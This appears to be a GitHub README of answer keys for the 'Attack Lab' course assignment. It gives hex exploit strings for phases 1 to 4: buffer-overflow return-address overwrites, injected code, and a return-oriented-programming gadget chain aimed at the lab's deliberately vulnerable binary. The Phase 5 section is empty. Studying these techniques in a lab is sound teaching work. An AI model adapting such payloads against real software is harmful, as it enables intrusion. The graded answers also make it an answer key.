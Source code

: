 # Attack Lab
See assignment details at attacklab.pdf.  
See guide at https://github.com/magna25/Attack-Lab/.

## Phase 1 Solution
```
// 40 bytes
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## Phase 2 Solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## Phase 3 Solution
```
// injected code with total 40 bytes
48 c7 c7 50 17 68 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch3
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66
```

## Phase 4 Solution
```
// fill with 40 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// first gadget - popq %rax
1d 18 40 00 00 00 00 00
// cookie
1f 25 3c 37 00 00 00 00
// second gadget - mov %rax to %rdi
0c 18 40 00 00 00 00 00
// address of touch2
a0 16 40 00 00 00 00 00
```

## Phase 5 Solution
